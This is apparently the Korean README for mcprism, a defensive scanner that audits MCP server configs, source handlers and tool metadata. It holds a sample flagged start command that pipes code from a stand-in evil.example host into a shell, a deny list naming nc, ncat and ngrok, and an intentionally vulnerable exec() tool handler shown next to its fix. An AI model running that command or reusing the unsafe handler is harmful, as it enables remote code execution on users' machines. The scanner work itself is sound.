

<div align="center">

<p><a href="README.md">English</a> · <a href="README.zh-CN.md">简体中文</a> · <a href="README.ja-JP.md">日本語</a> · 한국어 · <a href="README.fr-FR.md">Français</a> · <a href="README.de-DE.md">Deutsch</a> · <a href="README.es-ES.md">Español</a> · <a href="README.ru-RU.md">Русский</a> · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**AI가 신뢰하기 전에 MCP 서버를 검사하세요.**

mcprism은 [Model Context Protocol](https://modelcontextprotocol.io/) 서버를 위한 보안 스캐너입니다. 서버를 세 가지 각도에서 살펴봅니다.

1. **구성** — 클라이언트가 서버를 어떻게 시작하고 연결하는지. 버전이 고정된 패키지, 평문 전송, 구성 파일 내 자격 증명, 클라우드 메타데이터와 비공개 네트워크 대상을 확인합니다.
2. **소스 코드** — 구현 코드가 디스크에 있으면 JS/TS/Python/Go 도구 핸들러를 읽고 에이전트가 제어할 수 있는 인수를 위험한 싱크까지 추적합니다. 프로세스 실행, 외부 요청(SSRF), 파일 시스템 경로와 함께 eval, 안전하지 않은 역직렬화, 하드코딩된 비밀을 찾습니다.
3. **런타임** — MCP 핸드셰이크를 수행해 도구, 리소스, 프롬프트를 나열하고 도구 메타데이터의 포이즈닝을 확인합니다. 도구를 호출하지는 않습니다.

모든 서버에는 발견 항목 목록, 0~100 점수, A~F 등급이 부여됩니다. mcprism은 단일 Go 바이너리로 제공되고 런타임 의존성이 없으며 완전히 오프라인으로 동작하고 부작용도 없습니다.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP는 AI 에이전트를 외부 서버에 연결해 도구, 파일, 데이터를 사용하게 합니다. 이 프로토콜은 Claude Desktop과 Claude Code, Cursor, VS Code, Windsurf 등에 내장되어 있어 일반적인 환경은 얼마 지나지 않아 여러 서버에 연결됩니다. 이 서버들은 명령을 실행하고 파일 시스템을 읽으며 여러분의 프롬프트를 볼 수 있습니다. 악의적이거나 과도한 권한을 가진 서버는 자격 증명을 훔치고 명령을 실행하며 반환하는 텍스트로 에이전트를 조종할 수 있습니다. mcprism은 에이전트가 서버를 사용하기 전에 서버별 보고서와 점수를 제공합니다. 이미지에 `trivy`를 돌리는 것과 같은 방식입니다.

<p align="center">
  
</p>

## 두 줄로 빠르게 시작

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## 한 줄로 서버 하나 검사하기

어떤 구성에도 추가하지 않고 시작 명령, URL, 패키지, 디스크의 코드를 확인합니다.

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # 소스 트리 검사
mcprism vet server.py            # 파일 하나 검사
```

`vet`은 기본적으로 정적 분석만 수행하고 대상을 실행하지 않습니다. `--probe`를 추가하면 시작해서 도구, 리소스, 프롬프트를 나열합니다. 소스 트리나 파일은 아래 SAST 엔진을 거치며 네트워크가 필요 없습니다.

<p align="center">
  
</p>

## 목차

- [변경 기록](CHANGELOG.md)
- [공격 표면 설명](docs/MCP-ATTACK-SURFACE.md)
- [론치 키트](docs/LAUNCH-KIT.md)
- [기능](#기능)
- [사용 시점](#사용-시점)
- [보고서](#보고서)
- [설치](#설치)
- [빠른 시작](#빠른-시작)
- [출력 예시](#출력-예시)
- [정책 as 코드](#정책-as-코드)
- [소스 코드 검사(SAST)](#소스-코드-검사sast)
- [탐지 내용](#탐지-내용)
- [출력 형식](#출력-형식)
- [지원 클라이언트와 전송](#지원-클라이언트와-전송)
- [CI/CD](#cicd)
- [작동 방식](#작동-방식)
- [비교](#비교)
- [자주 묻는 질문](#자주-묻는-질문)
- [로드맵](#로드맵)
- [기여하기](#기여하기)

## 기능

- 단일 바이너리. Python이나 Node 설정, LLM API 키, 계정이 필요 없습니다.
- 정적·소스·라이브 검사. 구성을 읽고 체크아웃이 있으면 JS/TS/Python/Go 소스를 검토하며 MCP 핸드셰이크로 도구, 리소스, 프롬프트를 나열합니다. 도구를 호출하지 않습니다.
- 정책 as 코드. 규칙 켜기/끄기, 심각도 변경, 패키지·명령·도메인 허용/거부, 네트워크 격리를 요구할 수 있습니다. 내장 프로필에는 `default`, `strict`, `ci` 기준선이 있습니다.
- 위험 수용 대장. 이유와 만료일을 적어 발견 항목을 억제할 수 있습니다. 억제된 항목은 보고서에 계속 표시되고 만료되면 다시 나타납니다.
- 결정론적이고 오프라인. 33개 규칙이 OWASP MCP01~MCP07에 매핑되고 데이터가 머신 밖으로 나가지 않습니다.
- 사람과 기계를 위한 보고서: table, JSON, Markdown, HTML, SARIF, JUnit XML, CycloneDX SBOM, CSV.
- 여러 대상을 한 번에 스캔: 파일, 디렉터리(재귀), URL.

## 사용 시점

- MCP 서버를 설치했고 에이전트가 실행하기 전에 무엇에 접근할 수 있는지 알고 싶다. `mcprism scan`을 실행하세요.
- 팀이 서버 묶음을 공유하고 문서화된 기준선 하나를 원한다. `policy.yml`을 버전 관리에 두고 프로덕션 머신에서 `--profile strict`를 실행하세요.
- CI에서 변경 사항을 검토한다. `mcprism scan --profile ci`를 실행해 high 이상에서 빌드를 실패시키거나 SARIF를 코드 스캐닝에 게시하세요.

## 보고서

<p align="center">
  
</p>

여러 서버를 일괄 검토(정적 모드):

<p align="center">
  
</p>

## 설치

```sh
# 한 줄 설치 스크립트(Linux / macOS / Windows의 Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

또는 [릴리스](https://github.com/HUA503/mcprism/releases) 페이지에서 바이너리를 내려받으세요(Linux/macOS/Windows, amd64와 arm64). Homebrew, Scoop, Nix는 로드맵에 있습니다.

## 빠른 시작

```sh
# Claude Desktop, Claude Code, Cursor, VS Code 등의 구성 자동 검색
mcprism scan

# 특정 구성 파일
mcprism scan ~/.claude.json

# 디렉터리를 재귀적으로 스캔
mcprism scan ./configs

# 원격 서버
mcprism scan https://mcp.example.com/v1

# 여러 대상을 함께
mcprism scan a.json b.json ./configs

# 완전 오프라인 / 정적 전용(프로세스를 시작하지 않고 연결도 안 함)
mcprism scan mcp.json --no-dynamic

# 기준선이나 사용자 정의 정책 적용
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# 대화형 터미널 UI
mcprism scan -i

# 구성을 쓰지 않고 시작 명령 / URL / 패키지 검사
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # 실제로 시작해 도구 나열

# 참조
mcprism inspect mcp.json     # 서버의 도구/리소스/프롬프트 나열
mcprism rules                # 내장 규칙 나열
mcprism profiles             # 내장 프로필 나열
```

### 플래그

| 플래그 | 설명 |
|---|---|
| `-f, --format` | `table`(기본) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | 보고서를 파일에 쓰기 |
| `-p, --policy` | 정책 YAML 파일 경로 |
| `--profile` | 내장 프로필: `default` · `strict` · `ci` |
| `--suppressions` | 억제 YAML 파일 경로 |
| `--no-dynamic` | 정적 분석만; 프로세스를 시작하지 않고 연결도 안 함 |
| `--fail-on` | `critical` / `high` / `medium` / `low`에서 0이 아닌 종료 코드 |
| `--timeout` | 서버별 핸드셰이크 시간 초과(기본 `10s`) |
| `-i, --interactive` | TUI에서 발견 항목 탐색 |
| `--transport` | URL에 `http`(Streamable HTTP) 또는 `sse`(레거시) 강제 |
| `--probe`(`vet`) | 실제로 시작/연결해 도구를 나열. 대상을 실행하므로 샌드박스 권장 |

## 출력 예시

정적 모드로 두 개의 로컬 서버를 스캔:

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

HTML과 SARIF 형식에는 증거, 조치 조언, OWASP 매핑이 추가됩니다.

## 정책 as 코드

정책 파일은 버전이 있는 YAML 문서입니다. 통과/실패 조건을 설정하고 개별 규칙을 재정의하며 허용·거부할 패키지·명령·도메인을 나열하고 파일이나 셸 접근 권한이 있는 서버가 외부로 통신하지 않게 요구할 수 있습니다.

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

deny에 일치하면 `MCP700`으로 보고되고, 격리 조건에서 네트워크 접근을 가진 파일/셸 서버는 `MCP701`로 보고됩니다. [`examples/policy.yml`](examples/policy.yml), [`examples/suppressions.yml`](examples/suppressions.yml), [정책 가이드](docs/POLICIES.md)를 참조하세요. 컴플라이언스 게이트와 기계 판독 출력은 [docs/COMPLIANCE.md](docs/COMPLIANCE.md)를 보세요.

## 소스 코드 검사(SAST)

구성은 서버가 어떻게 시작되는지를 알려줄 뿐, 핸들러가 인수로 무엇을 하는지는 알려주지 않습니다. 구성상 멀쩡해 보이는 서버도 도구 매개변수를 그대로 셸에 넘기거나 요청 URL로 쓰거나 그것으로 만든 경로를 열 수 있습니다. 이런 결함은 구현 코드에 있으므로 mcprism이 코드를 읽습니다.

`vet`을 체크아웃이나 단일 파일로 지정하세요. 빌드 단계, 설치된 의존성, 네트워크가 필요 없습니다.

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

흔한 SDK와 프레임워크를 인식합니다.

- JavaScript/TypeScript: `@modelcontextprotocol/sdk`의 `McpServer`, 저수준 `Server.setRequestHandler`, 각종 `.tool(...)` 등록.
- Python: `FastMCP`의 `@mcp.tool()` 데코레이터, 저수준 `call_tool` 핸들러.

각 도구에 대해 핸들러 인수를 공격자가 제어하는 데이터로 보고 싱크까지 한 홉 추적합니다. 발견 항목은 파일과 줄을 알려주고 코드를 보여주며 고치는 방법을 설명합니다.

| 규칙 | 싱크 | 기본 |
|---|---|---|
| MCP801 | 도구 입력이 프로세스/명령 싱크에 도달(`exec`, `spawn`, `os.system`, `subprocess shell=True`) | critical |
| MCP802 | 도구 입력이 요청 URL을 제어(`fetch`, `requests`, `httpx`) — SSRF | high |
| MCP803 | 도구 입력이 제한 없이 파일 시스템 경로로 사용됨 | high |
| MCP804 | 동적 코드 실행(`eval`, `Function`, `exec`) | high |
| MCP805 | 안전하지 않은 역직렬화(`pickle`, `marshal`, `yaml.load`) | high |
| MCP806 | 소스에 하드코딩된 자격 증명 | high |

거짓 양성을 줄이기 위해 흔한 안전 패턴을 인식하고 있으면 보고하지 않습니다.

- 고정 명령과 배열로 전달된 인수(`execFile(cmd, args)`, `subprocess.run([...])`). 셸 문자열이 아니라.
- 경로 제한: `path.resolve(base, name)`을 `startsWith(base)`로 확인, Python에서는 `realpath` + `startswith`.
- 에이전트가 고르는 호스트 대신 고정된 기본 URL, 그리고 `yaml.safe_load` / `SafeLoader`.

아래 핸들러는 에이전트가 명령을 제어하므로 MCP801이 표시됩니다.

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

고친 버전은 허용 목록을 쓰고 셸을 실행하지 않습니다.

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

엔진은 패턴 기반에 한 단계 테인트 추적을 쓰고 서드파티 파서를 쓰지 않아 바이너리가 작고 자기완결적입니다. 완전한 데이터 흐름 분석기가 잡을 모든 것을 잡지는 못하며, 대부분 MCP 서버 결함에 있는 짧고 직접적인 핸들러-싱크 경로를 겨냥합니다. 규칙 세부 사항과 더 많은 예시는 [docs/SAST.md](docs/SAST.md)에 있습니다.

<p align="center">
  
</p>

## 탐지 내용

- 구성 내 비밀. 인식 가능한 자격 증명 형식(AWS, Google, GitHub, Slack, Stripe, GitLab, OpenAI, JWT 등)을 유형별로 표시하고 생성된 키처럼 보이는 고엔트로피 값을 의심스러운 비밀로 보고합니다. 자리표시자와 `${ENV_VAR}` 참조는 표시하지 않습니다.
- 평문 전송과 비활성화된 TLS(`http://`, `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- 지나친 권한. `/`나 홈 디렉터리에 마운트된 파일 시스템 서버, 꺼진 샌드박스나 권한 검사.
- 도구 포이즈닝. 도구 이름, 설명, 스키마의 주입 지시문, 폭 없음/양방향 Unicode, 숨겨진 HTML/Markdown, 인코딩된 덩어리.
- 위험한 기능 조합. 셸 + 네트워크, 파일 읽기 + 네트워크, 파일 쓰기 + 셸 등.
- 네트워크 대상. 클라우드 메타데이터 엔드포인트(`169.254.169.254`)와 비공개/루프백 범위.
- 공급망 위험: 버전이 고정되지 않은 패키지, 타이포스쿼트 닮은꼴, 원격 URL에서 바로 실행되는 코드.
- 정책 위반: 거부된 패키지·명령·도메인, 깨진 네트워크 격리.
- JS/TS/Python/Go 핸들러의 소스 코드 결함: 명령, 네트워크, 파일 싱크에 닿는 도구 인수, eval/exec, 안전하지 않은 역직렬화, 하드코딩된 비밀. [소스 코드 검사](#소스-코드-검사sast) 참조.
- 서버 간 도구 이름 충돌, 분류된 연결 실패(DNS / TLS / 거부됨 / 시간 초과 / 명령 없음).

전체 목록과 OWASP 대조는 [docs/RULES.md](docs/RULES.md)에 있습니다.

## 출력 형식

| 형식 | 주된 용도 |
|---|---|
| `table` | 터미널 출력 |
| `json` | 사용자 정의 도구 |
| `sarif` | GitHub 코드 스캐닝 |
| `md` | Markdown 보고서 / 티켓 |
| `html` | 공유 가능한 독립 보고서 |
| `junit` | Jenkins, GitLab, GitHub 테스트 보고서 |
| `cyclonedx` | SBOM / 취약점 수집 |
| `csv` | 스프레드시트와 GRC 작업 흐름 |

## 지원 클라이언트와 전송

mcprism은 Claude Desktop, Claude Code, Cursor, VS Code(GitHub Copilot Chat), Windsurf, Cline, Continue 등이 쓰는 JSON/JSONC MCP 구성을 읽고 `mcpServers` 객체와 배열 형식 모두 지원합니다. 세 가지 MCP 전송(stdio, Streamable HTTP, 레거시 HTTP+SSE)을 모두 지원합니다.

## CI/CD

`ci` 프로필으로 파이프라인에서 위험한 서버를 차단:

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --no-dynamic --profile ci
```

SARIF로 GitHub 코드 스캐닝에 게시:

```yaml
- name: Scan & upload
  run: mcprism scan mcp -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

JUnit 출력은 Jenkins와 GitLab의 테스트 보고서 단계에서 쓸 수 있고 CycloneDX 출력은 SBOM이나 취약점 추적기에 넘길 수 있습니다.

## 작동 방식



mcprism은 기능을 나열만 하므로 분석에 부작용이 없습니다. 포함된 데모 서버(`examples/testserver`)는 위험한 동작을 시뮬레이션만 하고 실제로 수행하지 않습니다. 패키지 구성과 데이터 흐름은 [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)에 설명되어 있습니다.

## 비교

공개된 프로젝트 설명에 기반합니다(기능은 바뀔 수 있음):

| | **mcprism** | mcp-scan | mcp-audit | 수동 검토 |
|---|---|---|---|---|
| 언어 / 런타임 | Go, 단일 바이너리 | Python | Python/Node | — |
| 설치/런타임 의존성 없음 | ✅ | ❌ | ❌ | — |
| 정적 구성 검토 | ✅ | ✅ | 일부 | ❌ |
| 라이브 기능 나열 | ✅ | 일부 | 일부 | ❌ |
| 소스 코드 SAST(핸들러-싱크 테인트) | ✅ | ❌ | ❌ | ❌ |
| 도구 포이즈닝 탐지 | ✅ | ✅ | 일부 | ❌ |
| 기능 조합 모델링 | ✅ | ❌ | ❌ | ❌ |
| 정책 as 코드(허용/거부/격리) | ✅ | ❌ | ❌ | ❌ |
| JUnit / CycloneDX / CSV 출력 | ✅ | ❌ | ❌ | ❌ |
| 재귀·다중 대상 스캔 | ✅ | 일부 | ❌ | ❌ |
| SARIF + CI 종료 코드 | ✅ | ✅ | ❌ | ❌ |
| 완전 오프라인, LLM 없음 | ✅ | ✅ | 일부 | ✅ |
| 크로스 플랫폼 | ✅ | 일부 | 일부 | — |

## 자주 묻는 질문

**mcprism이 제 도구를 호출하나요?**
아니요. MCP 초기화와 나열 호출만 수행합니다. 도구를 호출하지 않고 서버를 통해 파일을 열지 않으며 프롬프트를 보내지 않습니다.

**데이터를 어디론가 보내나요?**
아니요. 규칙은 로컬에서 실행되고 원격 측정도 없습니다. 라이브 스캔은 핸드셰이크를 위해 지정한 서버와 통신할 뿐이며 `--no-dynamic`을 쓰면 그것조사 없습니다.

**mcp-scan, mcp-audit과의 차이는?**
그것들은 Python이나 Node로 돌고 구성이나 포이즈닝에 집중합니다. mcprism은 Go 단일 바이너리이고 기능 조합을 모델링하며 정책 as 코드를 실행하고 SARIF 외에 JUnit, CycloneDX, CSV를 내보냅니다. [비교 표](#비교)를 보세요.

**내 환경에서 거짓 양성입니다. 어떻게 하나요?**
가능하면 근본 문제를 고치고, 아니면 이유와 만료일로 억제하세요. 억제된 항목은 계속 보이고 만료되면 저절로 돌아옵니다. [docs/POLICIES.md](docs/POLICIES.md) 참조.

**보고서가 깨끗하면 서버가 안전한가요?**
아니요. mcprism은 알려지고 관측 가능한 위험을 보고할 뿐 서버가 안전함을 증명할 수 없으므로 신뢰할 수 있는 서버만 실행하세요.

## 로드맵

- [ ] MCP 사양이 발전함에 따라 더 많은 규칙과 더 적은 거짓 양성
- [ ] MCP 레지스트리 / 마켓플레이스 스캔
- [ ] 정책 재정의를 넘어선 사용자 정의 규칙
- [ ] pre-commit 훅과 에디터 연동
- [ ] Homebrew, Scoop, Nix 패키지

## 기여하기

이슈와 PR을 환영합니다. 좋은 규칙 기여는 신호가 분명하고 결정론적이며 거짓 양성률이 낮은 검사입니다. `internal/rules` 아래에 추가하고 OWASP MCP 위험에 매핑한 뒤 테스트를 포함하세요. 코드 구성은 [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)에 있습니다. PR을 열기 전에 `go vet ./... && go test ./...`을 실행하세요.

## 라이선스

[MIT](LICENSE) © mcprism contributors.

mcprism은 방어 도구입니다. 위험을 보고할 뿐 서버가 안전함을 증명하지 못하며, 보고서가 깨끗하다고 해서 이해하지 못하는 서버를 신뢰할 이유는 되지 않습니다.
